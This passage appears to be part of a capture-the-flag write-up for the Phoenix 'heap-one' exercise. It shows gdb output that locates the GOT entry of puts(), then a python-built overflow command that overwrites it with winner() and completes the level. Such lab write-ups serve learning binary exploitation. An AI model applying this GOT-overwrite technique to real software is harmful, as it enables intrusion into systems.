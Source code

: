 Therfore the GOT address of ```puts()``` is ```0x804c140```

```c
(gdb) x/s 0x804c140
0x804c140 <puts@got.plt>:	"\356\210\373\367*?\372\367jo\373\367)@\372\367\024\031\371\367\341\335\373\367\360C\374\367\063\373\370\367\037\366\370\367"
```

Now, lets overwrite the GOT of ```puts()``` with ```winner()```,

Running out exploit,

```c
user@phoenix-amd64:~$ ./heap-one $(python -c "print('A'*20+'\x40\xc1\x04\x08')")  $(python -c "print('\x9a\x88\x04\x08')")
Congratulations, you've completed this level @ 1625324831 seconds past the Epoch
```

Done! we have completed "heap-one" challenge











